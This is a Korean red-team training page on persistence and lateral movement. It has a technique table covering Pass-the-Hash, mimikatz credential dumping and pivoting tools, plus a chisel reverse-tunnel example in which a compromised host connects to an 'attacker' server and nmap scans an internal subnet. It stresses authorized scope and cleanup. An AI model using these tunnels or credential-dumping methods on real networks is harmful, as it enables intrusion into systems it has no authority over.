

권한을 얻은 뒤 레드팀은 접근을 유지(persistence)하고, 목표를 향해 다른
호스트로 이동(lateral movement)한다. 이는 실제 공격자의 행동을 모사해
탐지·대응 역량을 평가하기 위함이며, **인가된 범위에서만** 수행한다.

## 측면 이동 개념 {#lateral}



| 기법 | 설명 |
|---|---|
| Pass-the-Hash | NTLM 해시로 인증(비밀번호 불필요) |
| Pass-the-Ticket | Kerberos 티켓 재사용 |
| 크리덴셜 덤프 | mimikatz, LSASS 메모리 |
| 원격 실행 | psexec, WinRM, WMI, SSH |
| 피벗팅/터널링 | chisel, ssh -L, proxychains |

## 피벗팅 예시 {#pivot}

```bash
# 침해 호스트를 경유해 내부망 접근 (chisel 리버스 터널)
# 공격자
./chisel server -p 8000 --reverse
# 침해 호스트
./chisel client attacker:8000 R:socks
# proxychains로 내부망 스캔
proxychains nmap -sT 10.10.20.0/24
```

## Active Directory {#ad}

기업 환경 대부분이 AD를 쓴다. 핵심 공격: Kerberoasting, AS-REP Roasting,
ACL 남용, DCSync. 도구: **BloodHound**(공격 경로 시각화), Rubeus, Impacket.

## 지속성과 정리 {#cleanup}

지속성 기법(스케줄 작업, 서비스, 시작 항목)은 평가 목적으로만 설치하고,
**교전 종료 시 모두 제거**한다. 설치한 아티팩트·계정·백도어 목록을 기록해
정리 및 보고서에 반영한다. 흔적 관리도 RoE에 명시된 범위를 따른다.

---

> 🧪 **실습해 보기**: [풀 체인 도전](/docs/labs/network-system-challenges/#full-chain) — 정찰부터 권한상승까지 한 번에 이어 본다.
